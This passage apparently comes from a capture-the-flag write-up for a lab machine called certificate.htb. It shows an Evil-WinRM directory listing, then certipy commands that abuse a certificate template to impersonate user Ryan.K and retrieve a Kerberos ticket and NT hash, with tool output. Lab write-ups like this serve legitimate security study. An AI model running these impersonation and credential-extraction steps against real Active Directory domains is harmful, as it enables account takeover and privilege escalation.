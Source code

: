 ```powershell
The command completed with one or more errors.

*Evil-WinRM* PS C:\Users> dir


    Directory: C:\Users


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----       12/30/2024   8:33 PM                Administrator
d-----       11/23/2024   6:59 PM                akeder.kh
d-----        11/4/2024  12:55 AM                Lion.SK
d-r---        11/3/2024   1:05 AM                Public
d-----        11/3/2024   7:26 PM                Ryan.K
d-----       11/26/2024   4:12 PM                Sara.B
d-----       12/29/2024   5:30 PM                xamppuser
```

Let's impersonate `Ryan.K` as they have their own directory
```bash
┌──(kali@kali)-[~/certificate.htb]
└─$ sync-ad certipy-ad req -u 'lion.sk@corp.local' -p '<PASSWORD_REDACTED>' \
    -dc-ip '10.10.11.71' -target 'certificate.htb' \
    -ca 'Certificate-LTD-CA' -template 'SignedUser' \
    -pfx 'lion.sk.pfx' -on-behalf-of 'CERTIFICATE\Ryan.K'
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 23
[*] Successfully requested certificate
[*] Got certificate with UPN 'Ryan.K@certificate.htb'
[*] Certificate object SID is 'S-1-5-21-515537669-4223687196-3249690583-1117'
[*] Saving certificate and private key to 'ryan.k.pfx'
[*] Wrote certificate and private key to 'ryan.k.pfx'
```

### ryan.k -> Administrator
With the `ryan.k.pfx` private key we can authenticate with `kerberos`
```bash
┌──(kali@kali)-[~/certificate.htb]
└─$ sync-ad certipy auth -pfx 'ryan.k.pfx' -dc-ip 10.10.11.71           
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: ryan.k@certificate.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'ryan.k.ccache'
[*] Trying to retrieve NT hash for 'ryan.k'
[*] Got hash for 'ryan.k@certificate.htb': <HASH_REDACTED>
```

